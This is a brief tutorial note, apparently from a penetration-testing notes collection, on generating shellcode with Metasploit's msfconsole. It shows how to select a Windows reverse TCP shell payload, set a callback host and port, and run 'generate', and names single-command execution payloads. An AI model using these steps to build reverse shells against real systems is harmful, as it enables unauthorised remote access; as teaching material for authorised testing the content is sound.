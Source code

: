 # Generate shellcode

An easy way to generate shellcode is by using `msfvenom` or `msconsole`. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. But of course it is the same thing, just different interfaces.

## Msfconsole

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

Now we genereate the shellcode using the command `generate`.

To see the options use `generate -h`

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```
use payload/windows/exec

use payload/cmd/windows/generic
```



